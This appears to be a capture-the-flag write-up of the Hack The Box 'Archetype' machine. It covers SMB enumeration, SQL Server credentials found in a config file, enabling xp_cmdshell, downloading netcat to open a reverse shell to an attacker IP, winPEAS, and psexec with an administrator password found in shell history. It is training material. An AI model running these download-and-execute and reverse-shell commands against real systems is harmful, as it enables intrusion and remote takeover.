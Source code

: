 ```yaml
---
title: Starting Point | Archetype
author: Zeropio
date: 2022-02-28
categories: [Pentesting, HackTheBox]
tags: [htb]
permalink: /pentesting/htb/starting-point/archetypr
---
```


# Enumeration

The nmap will show us:
```
> nmap -sV 10.129.221.7 -oN nmap 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-28 11:45 EST
Nmap scan report for 10.129.221.7
Host is up (0.049s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.15 seconds
```

We will try to see which folders are share.
```console
> smbclient -L //10.129.221.7/
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC

```

And then try to connect to **backups**:
```console
> smbclient //10.129.221.7/backups/
smb: \> ls
smb: \> get prod.dtsConfig
smb: \> exit
> cat prod.dtsConfig  
```

There we can see:
```
Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc
```



Now we can try to login with the scripts **mssqlclient.py**.
We will use the credentials provides by the **prod.dtsConfig** file.
```console
> sudo python3 mssqlclient.py ARCHETYPE/sql_svc@10.129.221.7 -windows-auth
```

# Foothold

Now we are in the SQL server. With the command **xp_cmdshell** we can try to execute the shell, but we will recieve the following error:
```sql
[-] ERROR(ARCHETYPE): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell'
```

Now we need to activate xp_cmdshell. With the following command we can see all the config aviable.
```sql
SQL> sp_configure
```

We need to activate the advanced options:
```sql
SQL> EXECUTE sp_configure 'show advanced options', 1;
SQL> RECONFIGURE;
```

And then we can activate the shell:
```sql
SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
SQL> RECONFIGURE;
```

Now we can get the **user flag**:
```sql
SQL> xp_cmdshell type C:\Users\sql_svc\Desktop\user.txt
```

We will make a reverse shell.
First we will start a nc in the port 443.
```console
> sudo nc -lvnp 443
```

Now we will create a http server in the same folder where we have the **nc64.exe** file.
```console
> sudo python3 -m http.server 80 
```

We need to download that file in the server. Because we don't have root access we will use the normal user.
```sql
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.88/nc64.exe -outfile nc64.exe"
```

The **http.server** will receive the following line:
```
10.129.221.7 - - [28/Feb/2022 12:51:53] "GET /nc64.exe HTTP/1.1" 200 -
```

Now we execute the command and send the cmd to the 443 port (where we are listening):
```sql
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.88 443"
```

# Privilege Escalation

Now we will need to use **winPEAS** to do the privilege escalation. We will change the prompt to powershell, and download the file.
```console
C:\Users\sql_svc\Downloads>powershell
PS C:\Users\sql_svc\Downloads> wget http://10.10.14.88/winPEASx64.exe -outfile winPEASx64.exe
```

In the http.server we can see that works:
```console
C:\Users\sql_svc\Downloads>powershell
10.129.221.7 - - [28/Feb/2022 13:01:29] "GET /winPEASx64.exe HTTP/1.1" 200 -
```

No we will execute the script:
```console
PS C:\Users\sql_svc\Downloads> .\winPEASx64.exe
```

We can check the shell history for credentials (like **.bash_history**).
```console
PS C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine> type ConsoleHost_history.txt
        net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
```

With the password we have now we will use another script from impacket, **psexec.py**:
```console
> python3 psexec.py administrator@10.129.221.7
```

We can use the password from before and now we are in the Administrator user:
```console
C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
```
